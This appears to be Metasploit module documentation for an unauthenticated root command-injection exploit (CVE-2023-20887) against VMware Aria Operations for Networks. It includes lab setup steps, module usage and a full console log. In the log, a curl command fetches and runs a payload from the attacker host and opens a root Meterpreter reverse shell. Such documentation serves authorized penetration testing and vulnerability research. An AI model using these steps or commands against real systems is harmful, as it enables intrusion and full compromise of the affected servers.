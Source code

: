 ## Vulnerable Application

VMWare Aria Operations for Networks (vRealize Network Insight) is vulnerable to command injection
when accepting user input through the Apache Thrift RPC interface. This vulnerability allows a
remote unauthenticated attacker to execute arbitrary commands on the underlying operating system
as the root user. The RPC interface is protected by a reverse proxy which can be bypassed.
VMware has evaluated the severity of this issue to be in the Critical severity range with a
maximum CVSSv3 base score of 9.8. A malicious actor can get remote code execution in the
context of `root` on the appliance.
VMWare versions 6.2 to 6.10 are vulnerable.

This module exploits the vulnerability to upload and execute payloads gaining root privileges.
Successfully tested against version 6.8.0.

### Install

The OVA file can be downloaded from the VMware Customer Connect portal.

1. Import the file VMware-vRealize-Network-Insight-6.8.0.1666364233-platform.ova into VMware Fusion
2. Login with the given credentials `consoleuser:console`
3. Run the `setup` command to begin setup

Starting Step 1/4: Create User Passwords
1. Enter and re-enter SSH_User_Password: `notpassword`
2. Enter and re-enter CLI_User_Password: `notpassword`

Starting Step 2/4: Network Configuration:
1. Enter IP_Family: `ipv4`
2. Enter IP_Address: `192.168.1.60`
3. Enter Default_Gateway: `192.168.1.254`
4. Enter DNS: `4.2.2.4 8.8.8.8`
5. Enter Domain_Search: `example.com`
6. Save configuration: `y`

Starting Step 3/3: Network Time Server Configuration:
1. Is the Network Time Security supported for NTP servers? `n`
2. Enter NTP servers: `0.us.pool.ntp.org`

Step 4/4: Web-Proxy (Optional Configuration)
1. Configure web proxy?: `n`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use linux/http/vmware_vrni_rce_cve_2023_20887`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `set FETCH_SRVHOST [ip]`
1. Do: `run`
1. You should get a root shell.

## Options

## Scenarios

### VMware vRealize Network Insight 6.8.0 1666364233

```
msf6 > use linux/http/vmware_vrni_rce_cve_2023_20887
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set rhost 192.168.1.60
rhost => 192.168.1.60
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set lhost 192.168.1.69
lhost => 192.168.1.69
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set FETCH_SRVHOST 192.168.1.69
FETCH_SRVHOST => 192.168.1.69
msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > options

Module options (exploit/linux/http/vmware_vrni_rce_cve_2023_20887):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.60     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      hHTNUdqFrV       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       192.168.1.69     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.69     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.60:443 can be exploited.
[+] The target is vulnerable. VMWare Aria Operations for Networks (vRealize Network Insight) version 6.8.0 was found.
[*] Executing Unix (In-Memory) with curl -so ./yjUczQeXbCf http://192.168.1.67:8080/VtUnMtEdkI5A0Lv6Y2zkFw; chmod +x ./yjUczQeXbCf; ./yjUczQeXbCf &
[*] Attempting to execute shell
[*] Sending stage (3045348 bytes) to 192.168.1.60
[*] Meterpreter session 9 opened (192.168.1.67:4444 -> 192.168.1.60:52370) at 2023-07-20 14:50:13 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.1.60
OS           : Ubuntu 18.04 (Linux 5.4.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
